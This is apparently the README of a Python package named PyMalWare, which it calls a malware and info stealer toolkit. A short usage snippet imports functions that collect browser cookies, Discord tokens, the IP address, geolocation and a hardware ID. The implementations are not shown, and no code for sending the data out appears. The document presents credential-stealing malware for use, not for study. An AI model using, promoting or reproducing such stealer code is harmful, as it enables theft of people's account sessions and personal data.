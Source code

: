 # PyMalWare

This python module is a Malware / info stealer toolkit

```python
from PyMalWare import browser_cookies, discord, misc
from browser_cookies import browser_cookies
from discord import get_tokens
from misc import getip, getgeo, gethwid

cookie_path: str = browser_cookies()
ip: str = getip()
geo: dict = getgeo()
hwid: str = gethwid()
tokens: dict = get_tokens()

```
